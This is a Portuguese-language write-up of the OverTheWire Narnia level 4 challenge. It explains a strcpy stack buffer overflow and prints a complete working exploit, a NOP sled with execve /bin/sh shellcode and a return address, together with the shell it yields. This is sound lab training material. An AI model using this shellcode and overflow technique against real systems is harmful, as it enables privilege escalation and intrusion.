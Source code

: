 ```yaml
---
layout: default
title: Level 4 - Outro simples stack overflow [OverTheWire CTF – Narnia] write-up
date: 2017-01-15 13:20
author: brennords
comments: true
categories: [CTFs]
---
```

<ul>
    <li><a href="https://brenn0.wordpress.com/2016/12/06/level-0-overthewire-ctf-narnia-write-up/">Level 0</a></li>
    <li><a href="https://brenn0.wordpress.com/2016/12/13/level-1-overthewire-ctf-narnia-write-up/">Level 1</a></li>
    <li><a href="https://brenn0.wordpress.com/2017/01/03/level-2-overthewire-ctf-narnia-write-up/">Level 2</a></li>
    <li><a href="https://brenn0.wordpress.com/2017/01/07/level-3-overthewire-ctf-narnia-write-up/">Level 3</a></li>
</ul>

Esse level 4 foi rápido de se resolver e, se você leu o <a href="https://brenn0.wordpress.com/2017/01/03/level-2-overthewire-ctf-narnia-write-up/">write-up do level 2</a>, também resolve fácil.

De qualquer forma, farei um write up simples indicando a pequena diferença entre os challs.

```narnia4@melinda:/narnia$ ./narnia4
narnia4@melinda:/narnia$ ./narnia4 asdfa
narnia4@melinda:/narnia$```

Executa-lo não ajudou muito. Hora de <em>cat narnia4.c.</em>

https://gist.github.com/anonymous/d5c986fb7d5333a2a544660a0ac649f9

Praticamente a única diferenca entre o <a href="https://brenn0.wordpress.com/2017/01/03/level-2-overthewire-ctf-narnia-write-up/">level 2</a> e este é que ele enche de 0's as variáveis de ambiente. Mas com qual objetivo? Você pode perguntar. Com o objetivo de impossibilitar que guardemos um shellcode em alguma variável de ambiente e faça o programa executa-lo assim que estourarmos o buffer de chars e sobreescrevermos o endereço de retorno.

Se você não entendeu bem como o programa faz isso, deixo esta página com o manual sobre a <strong><a href="http://man7.org/linux/man-pages/man7/environ.7.html">environ</a></strong>.

Nesta altura do campeonado todos já devem saber o que acontece quando se usa <a href="http://www.cplusplus.com/reference/cstring/strcpy/"><strong>strcpy</strong></a> (linha 17 do código acima) para se copiar um conjunto de dados de tamanho desconhecido para uma variável de tamanho fixo (não sabe? <a href="https://brenn0.wordpress.com/category/ctfs/over-the-wire/narnia/">Leia os write-ups desde o level 0</a>).

Diferente do <a href="https://brenn0.wordpress.com/2017/01/07/level-3-overthewire-ctf-narnia-write-up/">level 3</a>, desta vez não haverá problema algum em usar a stack para guardar um shellcode e executa-lo. Pude confirmar isso usando comando checksec no gdb+peda.

```narnia4@melinda:/narnia$ gdb -q narnia4
Reading symbols from narnia4...(no debugging symbols found)...done.
(gdb) source /usr/local/peda/peda.py
gdb-peda$ checksec
CANARY : disabled
FORTIFY : disabled
NX : disabled
PIE : disabled
RELRO : disabled```

A partir desse momento segui os mesmos passos do <a href="https://brenn0.wordpress.com/2017/01/03/level-2-overthewire-ctf-narnia-write-up/">level 2</a>: descobri o tamanho do buffer que era preciso para sobreescrever exatamente o endereço de retorno e também o endereço que o shellcode estaria. Então enchi o buffer de nops + shellcode + endereço do shellcode.

Acabei ficando com o exploit assim:

```python -c 'print \x90*224 + \x31\xc0\xb0\x46\x31\xc9\x31\xdb\xcd\x80\xeb\x18\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\x31\xc0\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68 + \xad\xd7\xff\xff'```

Que quando executado:

```narnia4@melinda:/narnia$ ./narnia4 `python -c 'print \x90*224 + \x31\xc0\xb0\x46\x31\xc9\x31\xdb\xcd\x80\xeb\x18\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\x31\xc0\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68 + \xad\xd7\xff\xff'`
$ whoami
narnia5```

Mas antes de finalizar, queria salientar que uma coisa nova que aprendi resolvendo esse desafio foi de que algumas vezes o exploit pode rodar dentro do gdb e resultar em um erro fora dele (illegal instruction ou coisa assim). Isso acontece porque o gdb joga umas variaveis de ambiente extras no stack, o que pode bagunçar com os endereços. Ou seja, no gdb vai ser um endereço e fora dele será outro. No passado fiquei confuso quando me deparei com esse tipo de comportamento mas nunca pesquisei a fundo, mas, ao resolver esse chall e ao mesmo tempo tentar entender o máximo possível do que acontecia, encontrei esta bela postagem chamada "<a href="http://www.mathyvanhoef.com/2012/11/common-pitfalls-when-writing-exploits.html">Common Pitfalls When Writing Exploits</a>". Recomendo a leitura.
